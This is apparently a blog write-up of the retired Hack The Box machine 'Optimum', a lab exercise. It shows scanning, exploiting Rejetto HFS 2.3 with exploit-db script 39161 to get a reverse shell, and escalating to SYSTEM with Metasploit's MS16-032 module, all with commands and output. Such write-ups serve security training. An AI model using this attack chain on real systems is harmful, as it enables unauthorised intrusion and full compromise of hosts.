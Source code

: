 ```yaml
---
layout: post
title: Hack the Box - Optimum
date: 2020-04-25 23:23:22 +0100
description: Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits. Both exploits are easy to obtain and have associated Metasploit modules, making this machine fairly simple to complete.
img: optimum.png
fig-caption: Optimum
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits. Both exploits are easy to obtain and have associated Metasploit modules, making this machine fairly simple to complete.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ sudo nmap -p- -T4  10.129.57.165                                                                
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 23:50 GMT
Nmap scan report for 10.129.57.165
Host is up (0.017s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```
When I navigated to that port in a browser the landing page exposed the application and version number. Searching exploitdb for an exploit revealed a python script.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ searchsploit hfs 2.3            
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                        | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                     | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution           | windows/webapps/34852.txt
----------------------------------------------------------------------------------- ---------------------------------

┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /home/calxus/hackthebox/optimum/39161.py
```
## Foothold
The only changes that were necessary to make this exploit run are adding the IP and port that our netcat listener are running on. We also need to host a file server that netcat is hosted in.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ python 39161.py 10.129.57.165 80
```
Once the the exploit is run we should receive a shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/optimum]
└─$ nc -nlvp 4499
listening on [any] 4499 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.57.165] 49166
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop> whoami
 whoami
optimum\kostas
```
## Privilege Escalation
In order to get system on this machine I had to upload a metasploit binary and send back a meterpreter shell. When I did this I then ran the local_exploit_suggester and found it could be vulnerable to MS16-032. When I ran this exploit I got a system shell.
```
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.129.57.165 - Collecting local exploits for x86/windows...
[*] 10.129.57.165 - 37 exploit checks are being tried...
[+] 10.129.57.165 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.57.165 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed

msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4444 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
...
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.129.57.165
[*] Meterpreter session 2 opened (10.10.14.27:4444 -> 10.129.57.165:49184) at 2021-03-15 00:42:00 +0000
[+] Deleted C:\Users\kostas\AppData\Local\Temp\LljWcYKZFA.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```